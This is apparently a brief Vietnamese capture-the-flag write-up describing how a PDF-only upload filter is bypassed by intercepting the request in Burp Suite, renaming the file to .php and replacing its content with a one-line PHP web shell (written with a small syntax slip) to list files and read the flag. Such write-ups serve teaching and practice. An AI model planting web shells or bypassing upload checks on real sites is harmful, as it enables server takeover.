

xin chào các bạn nha :<

bài thứ 3 khi vào trong giao diện mình sẽ thấy như này

Thì mình đoán ngay từ đầu là sẽ upload file vul
Sau khi up thử 1 file mình sẽ có đường link dẫn đến file đó đầu tiên mình thử upload .php shell lên thì không được và nó đã fillter file chỉ nhận pdf

Sau đó mình tạo 1 file để get parameters đơn giảm như sau:

                                        <?php $cmd=_GET["cmd"]; echo system($cmd); ?>
đầu tiên là gửi 1 file pdf chặn proxy bằng burpsuite sau đó đổi filenama thành any.php
thay đổi nội dung file thành shell trên
sau đó pem tìm file flag thôi mình sẽ dùng ls các kiểu và cat flag :>
